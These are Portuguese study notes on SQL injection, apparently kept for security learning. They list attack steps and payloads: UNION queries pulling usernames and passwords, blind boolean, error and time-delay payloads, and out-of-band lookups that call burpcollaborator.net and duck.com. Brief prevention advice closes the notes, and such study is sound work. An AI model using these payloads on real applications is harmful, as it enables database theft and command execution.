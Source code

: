 # SQLi
owasp, https://sqlwiki.netspi.com/

## passo-a-passo

- 1) descobrir sqli (concatenando, somando, ...)
- 2) descobrir qual o db sendo executado (mysql, oracle)
- 3) dumpar a base/executar comandos no SO

## ataques UNION
- union serve para juntar informações de 2 querys
- pode ser usado no SELECT 
- as querys devem retornar o mesmo número de colunas e elas devem ser compatíveis
- para descobrir o número de colunas pode-se usar brute-force
    * injetar ORDER BY e incrementar o index da coluna
    * fazer UNION com SELECT NULL e aumentar a quantidade de NULLs
- para descobrir o tipo de uma coluna:
    * ir tentando unir cada coluna com string: UNION SELECT 'a', NULL--
- pode-se usar || para concatenar colunas
    * ' UNION SELECT user || ' ' || password from USERS--


## especificações

- dependendo no db pode-se criar arquivos ou executar comandos direto na shell do SO (mssql - xp_cmdshell, mysql - into outfile)

### nomes de tabelas e colunas
- em nao oracle: 
    - SELECT table_name FROM information_schema.tables 
    - SELECT column_name FROM information_schema.columns 
- em oracle:
    - SELECT table_name FROM all_tables
    - SELECT column_name FROM all_tab_columns 

### oracle

- db SELECT precisa de FROM então usar: SELECT NULL FROM DUAL 
- versão do banco: SELECT * FROM v$version 

### mysql
comentários com -- devem ser seguidos de espaço ou pode ser usado #

## blind sql
- não retorna o resultado da query na response
- tentar causar erro na query sql para ver se a response tem alguma variação de comportamento
* pode-se tentar uma query de sleep para verificar a ocorrência
* ou também uma interação out-of-band

### responses condicionais
- response muda comportamento com o injection, permitindo validar condições (e assim obter informações por tentativa)
- 123' AND 1=0
- 123' AND 1=0 UNION select 'a' FROM users WHERE username = 'admin' and SUBSTRING(password, 3, 1) > 'm'-- 

### induzindo responses condicionais com errors SQL 
- induzir erros não tratados na aplicação para alterar comportamento da response e assim conseguir validar condições
- sql faz pre-verificação de tipos antes de executar, logo case deve respeitar tipo:
- 123' UNION SELECT CASE WHEN (1=1) THEN (cast(1/0 as char(2))) ELSE NULL END-- 

### induzindo responses condicionais com time delays
- caso a aplicação trate muito bem qualquer erro interno gerado, sem mudanças de comportamento, outra forma de detectar um sqli é com uma condição de sleep 
- comandos de delay específicos para cada db
- 123' union select case when (1=1) then (cast((SELECT pg_sleep(10)) as char(2))) else null end --

### usando tecnicas out-of-band (oast)
- caso a response da aplicação não dependa da query sql (ela é feita asincronamente) é necessário uma solução que envolva outro canal de comunicação (geralmente é usado o dns por ser mais liberado em qualquer ambiente)
- específico para cada db
- SELECT UTL_INADDR.get_host_address('burpcollaborator.net') from dual


## detectando

- submeter: 
* ' 
* ' OR 1=1--
* '; waitfor delay('0:0:20')--
* out-of-band: exec master..xp_dirtree '//duck.com/a'

## second-order 

- stored sqli
- payload é armazenado internamente para ser execução posteriormente

## prevenindo

- não colocar input diretamente na query

- tratar (parametrizar) entrada do usuário antes (lib)


